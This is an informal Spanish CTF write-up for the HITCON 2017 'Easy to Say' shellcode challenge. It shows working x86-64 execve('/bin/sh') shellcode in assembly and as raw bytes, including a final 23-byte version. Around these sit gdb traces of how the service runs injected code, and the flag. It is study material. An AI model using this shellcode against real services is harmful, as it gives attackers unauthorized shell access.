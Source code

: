 
## **Enunciado**

Te daban el binario de 64 bits de un servicio corriendo en una máquina remota para que le pases un shellcode y puedes explotarlo para conseguir una shell y poder leer la flag.

## **Solución**

Hay que pasarle un shellcode de 24 bytes donde no se repita ningún opcode. No vale pasar el filtro de superar esos 24 bytecode que sean diferentes y luego poner detrás tu shellcode clásico de msfvenom. 

Al lío... ahora en plan apuntes en sucio, ya los ordenaré...

Joder, lo iba a explicar en plan sencillito para enterarme y ver lo que he aprendido y un tipo mucho más listo se me ha adelantado:

https://vasco-jofra.github.io/hitcon2017/EasyToSay/



cat otro.asm 
;BITS64
global _start

section .text

_start:

xor	edx, edx
mov	rbx, 0x68732f6e69622fff
shr	rbx,0x8
push	rbx
mov	rdi,rsp
xor	rax,rax
push	rax
push	rdi
mov	rsi,rsp
mov	al,0x3b	
syscall

push	0x1
pop	rdi
push	0x3c
pop	rax
syscall


python -c "print '\x66\x41\x81\xc1\x85\x82\xb2\x64\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'" > file


\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58


2600


0x50da450ae000





gdb-peda$ i b
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x0000555555554de4 
	breakpoint already hit 1 time
2       breakpoint     keep y   0x0000555555554e2b 
	breakpoint already hit 1 time


	
	
	
	xor    eax,eax
   0x55cf92904245:	cmp    QWORD PTR [rip+0x20402b],0x0        # 0x55cf92b08278
   0x55cf9290424d:	je     0x55cf9290443f
=> 0x55cf92904253:	call   0x55cf92904e70
   0x55cf92904258:	lea    r14,[rax+0x1]
   0x55cf9290425c:	mov    BYTE PTR [rax],0x0
   0x55cf9290425f:	xor    eax,eax
   0x55cf92904261:	mov    rdi,r14

   
   
   0x55f5ecca7eb9:	xor    edx,edx
   0x55f5ecca7ebb:	xor    eax,eax
=> 0x55f5ecca7ebd:	call   0x55f5ecca67b0 <execl@plt>
   0x55f5ecca7ec2:	mov    rsi,QWORD PTR [rip+0x2033af]        # 0x55f5eceab278
   0x55f5ecca7ec9:	lea    rdi,[rip+0x16fe]        # 0x55f5ecca95ce
   
   
   
   
   
   x/64i 0x1415d46b000
   0x1415d46b000:	xor    rbp,rbp
   0x1415d46b003:	xor    rax,rax
   0x1415d46b006:	xor    rbx,rbx
   0x1415d46b009:	xor    rcx,rcx
   0x1415d46b00c:	xor    rdx,rdx
   0x1415d46b00f:	xor    rdi,rdi
   0x1415d46b012:	xor    rsi,rsi
   0x1415d46b015:	xor    r8,r8
   0x1415d46b018:	xor    r9,r9
   0x1415d46b01b:	xor    r10,r10
   0x1415d46b01e:	xor    r11,r11
   0x1415d46b021:	xor    r12,r12
   0x1415d46b024:	xor    r13,r13
   0x1415d46b027:	xor    r14,r14
   0x1415d46b02a:	xor    r15,r15
   0x1415d46b02d:	add    rsp,0x1000
   0x1415d46b034:	movabs rdi,0x68732f6e69622e
   0x1415d46b03e:	xor    di,0x1
   0x1415d46b042:	push   rdi
   0x1415d46b043:	push   rsp
   0x1415d46b044:	pop    rdi
   0x1415d46b045:	mov    al,0x3b
   0x1415d46b047:	syscall 
   0x1415d46b049:	or     al,BYTE PTR [rax]
   0x1415d46b04b:	add    BYTE PTR [rax],al
   0x1415d46b04d:	add    BYTE PTR [rax],al

   
   x/64i 0x7ffff7ff3000
   0x7ffff7ff3000:	xor    rbp,rbp
   0x7ffff7ff3003:	xor    rax,rax
   0x7ffff7ff3006:	xor    rbx,rbx
   0x7ffff7ff3009:	xor    rcx,rcx
   0x7ffff7ff300c:	xor    rdx,rdx
   0x7ffff7ff300f:	xor    rdi,rdi
   0x7ffff7ff3012:	xor    rsi,rsi
   0x7ffff7ff3015:	xor    r8,r8
   0x7ffff7ff3018:	xor    r9,r9
   0x7ffff7ff301b:	xor    r10,r10
   0x7ffff7ff301e:	xor    r11,r11
   0x7ffff7ff3021:	xor    r12,r12
   0x7ffff7ff3024:	xor    r13,r13
   0x7ffff7ff3027:	xor    r14,r14
   0x7ffff7ff302a:	xor    r15,r15
   0x7ffff7ff302d:	add    rsp,0x1000
   0x7ffff7ff3034:	mov    dx,0x1000
   0x7ffff7ff3038:	sub    rsp,rdx
   0x7ffff7ff303b:	add    r9,0x46424344
   0x7ffff7ff3042:	shl    ah,0x2
   0x7ffff7ff3045:	not    r13d
   0x7ffff7ff3048:	mov    dl,0x64
   0x7ffff7ff304a:	nop
   0x7ffff7ff304b:	xor    DWORD PTR [rax],eax
   0x7ffff7ff304d:	add    BYTE PTR [rax],al
   0x7ffff7ff304f:	add    BYTE PTR [rax],al


   52 los usa él y 23 te los deja de regalo
   
   
   
   x/32i 0x7ffff7ff3000
   0x7ffff7ff3000:	xor    rbp,rbp
   0x7ffff7ff3003:	xor    rax,rax
   0x7ffff7ff3006:	xor    rbx,rbx
   0x7ffff7ff3009:	xor    rcx,rcx
   0x7ffff7ff300c:	xor    rdx,rdx
   0x7ffff7ff300f:	xor    rdi,rdi
   0x7ffff7ff3012:	xor    rsi,rsi
   0x7ffff7ff3015:	xor    r8,r8
   0x7ffff7ff3018:	xor    r9,r9
   0x7ffff7ff301b:	xor    r10,r10
   0x7ffff7ff301e:	xor    r11,r11
   0x7ffff7ff3021:	xor    r12,r12
   0x7ffff7ff3024:	xor    r13,r13
   0x7ffff7ff3027:	xor    r14,r14
   0x7ffff7ff302a:	xor    r15,r15
   0x7ffff7ff302d:	add    rsp,0x1000
   0x7ffff7ff3034:	add    r9w,0x8285
   0x7ffff7ff303a:	mov    dl,0x64
   0x7ffff7ff303c:	lea    rsi,[rip+0xfffffffffffefaf6]        # 0x7ffff7fe2b39
   0x7ffff7ff3043:	add    rsi,r9
   0x7ffff7ff3046:	xor    eax,eax
   0x7ffff7ff3048:	syscall 
   0x7ffff7ff304a:	jmp    0x7ffff7ff3043
   0x7ffff7ff304c:	add    BYTE PTR [rax],al

   
   
   
   0x55555575605c:
   
   Cosas importantes sobre el código que ya tiene guardado él para ejecutar antes de nuestro shellcode:
   
  1.- Es en la instrucción "call memcpy" del main donde va a guardar esa parte más lo que nosotros le pasemos.
   Breakpoint 3 at 0x555555554d89
   
   Así llama a la función memcpy:
   Guessed arguments:
	arg[0]: 0x7ffff7ff3000 --> 0x0 
	arg[1]: 0x555555554ee8 --> 0x3148c03148ed3148 
	arg[2]: 0x34 ('4')
	
	Sabe donde está el código suyo (0x34h) bytes que guarda en esa posición de memoria(0x555555554ee8) porque lo calcula a partir del rip, son posiciones relativas pero el offset es fijo. 
	Echemos un vistazo:
	
		0x555555554d62:	mov    rax,QWORD PTR [rip+0x2012d7]        # 0x555555756040
		0x555555554d69:	mov    QWORD PTR [rbp-0x2038],rax
		0x555555554d70:	mov    rcx,QWORD PTR [rip+0x201299]        # 0x555555756010
		0x555555554d77:	mov    rax,QWORD PTR [rip+0x2012c2]        # 0x555555756040
		0x555555554d7e:	mov    edx,0x34

	
	En esos valores hay:
	
		x/32xw 0x555555756010
		0x555555756010:	0x55554ee8	0x00005555	0x00000000	0x00000000
		0x555555756020 <stdout>:	0xf7dd4600	0x00007fff	0x00000000	0x00000000
		0x555555756030 <stdin>:	0xf7dd38c0	0x00007fff	0x00000000	0x00000000
		0x555555756040:	0xf7ff3000	0x00007fff	0x00000000	0x00000000
		
	O sea, siempre se va a copiar a la posición 0x7ffff7ff3000 el contenido de 0x555555554ee8
	Su código va a estar hardcodeado en la posición 0x555555554ee8:
	
	   0x555555554ee8:	xor    rbp,rbp
	   0x555555554eeb:	xor    rax,rax
	   0x555555554eee:	xor    rbx,rbx
	   0x555555554ef1:	xor    rcx,rcx
	   0x555555554ef4:	xor    rdx,rdx
	   0x555555554ef7:	xor    rdi,rdi
	   0x555555554efa:	xor    rsi,rsi
	   0x555555554efd:	xor    r8,r8
	   0x555555554f00:	xor    r9,r9
	   0x555555554f03:	xor    r10,r10
	   0x555555554f06:	xor    r11,r11
	   0x555555554f09:	xor    r12,r12
	   0x555555554f0c:	xor    r13,r13
	   0x555555554f0f:	xor    r14,r14
	   0x555555554f12:	xor    r15,r15
	   0x555555554f15:	add    rsp,0x1000
	   0x555555554f1c:	add    BYTE PTR [rcx+rbp*2+0x6d],dl <-- Esta línea ya no forma parte de su código
	   
	   0x555555554f1c-0x555555554ee8=0x34 (el número de bytes que copia en hexadecimal)
  
  2.- Despues del __read_check, tenemos estos valores:
  
		   0x555555554dbd:	call   0x555555554918
		=> 0x555555554dc2:	cdqe   
		   0x555555554dc4:	mov    QWORD PTR [rbp-0x2040],rax
		   0x555555554dcb:	mov    rdx,QWORD PTR [rbp-0x2040]
		   0x555555554dd2:	lea    rax,[rbp-0x2030]
		   0x555555554dd9:	mov    rsi,rdx
		[------------------------------------stack-------------------------------------]
		0000| 0x7fffffffc260 --> 0x0 
		0008| 0x7fffffffc268 --> 0x7ffff7ff3000 --> 0x3148c03148ed3148 
		0016| 0x7fffffffc270 --> 0x64b28285c1814166 
		0024| 0x7fffffffc278 --> 0x4cfffefaf6358d48 
		0032| 0x7fffffffc280 --> 0xf7eb050fc031ce01 
		0040| 0x7fffffffc288 --> 0x0 
		0048| 0x7fffffffc290 --> 0x0 
		0056| 0x7fffffffc298 --> 0x0 

	Si nos fijamos bien son las líneas de nuestro código, exactamente 0x18 bytes. 
	
	   x/32i 0x7fffffffc270
	   0x7fffffffc270:	add    r9w,0x8285
	   0x7fffffffc276:	mov    dl,0x64
	   0x7fffffffc278:	lea    rsi,[rip+0xfffffffffffefaf6]        # 0x7ffffffebd75
	   0x7fffffffc27f:	add    rsi,r9
	   0x7fffffffc282:	xor    eax,eax
	   0x7fffffffc284:	syscall 
	   0x7fffffffc286:	jmp    0x7fffffffc27f
	   0x7fffffffc288:	add    BYTE PTR [rax],al

  3.- A partir de aquí empieza a empalmar su código con el que tu has introducido:
  
	   0x555555554de8:	mov    rax,QWORD PTR [rip+0x201251]        # 0x7ffff7ff3000
	   0x555555554def:	add    rax,0x34
	=> 0x555555554df3:	mov    rdx,QWORD PTR [rbp-0x2030]	<- Va metiendo los trozos de nuestro código que están en la pila
	   0x555555554dfa:	mov    QWORD PTR [rax],rdx
	   0x555555554dfd:	mov    rdx,QWORD PTR [rbp-0x2028]
	   0x555555554e04:	mov    QWORD PTR [rax+0x8],rdx
	   0x555555554e08:	mov    rdx,QWORD PTR [rbp-0x2020]

   
 
 En definitiva sólo admite 23 bytes y que no se repitan para explotar el servicio.
 
 Mira este shellcode justo 23 bytes:
 
 \x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05




hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}
